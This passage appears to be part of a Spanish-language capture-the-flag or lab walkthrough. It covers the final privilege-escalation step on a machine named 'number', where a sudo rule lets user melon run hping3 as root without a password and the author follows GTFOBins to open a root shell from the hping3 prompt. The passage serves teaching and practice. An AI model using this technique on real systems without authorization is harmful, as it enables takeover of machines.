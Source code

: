 ```sh
melon@number:/var/www$ sudo -l
Matching Defaults entries for melon on number:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User melon may run the following commands on number:
    (ALL) NOPASSWD: /usr/sbin/hping3
```

Vemos que podemos ejecutar el binario `hping3` como cualquier usuario sin contraseña, eso incluye a `root`.

Si nos vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/hping3/#sudo) encontramos una manera para obtener `root` con este binario, vamos a realizar los pasos que nos dice:

```sh
melon@number:~$ sudo /usr/sbin/hping3
hping3> /bin/bash
root@number:/home/melon#
```

¡Enhorabuena! Ya tenemos el **control total** de la máquina. ¡Qué fácil!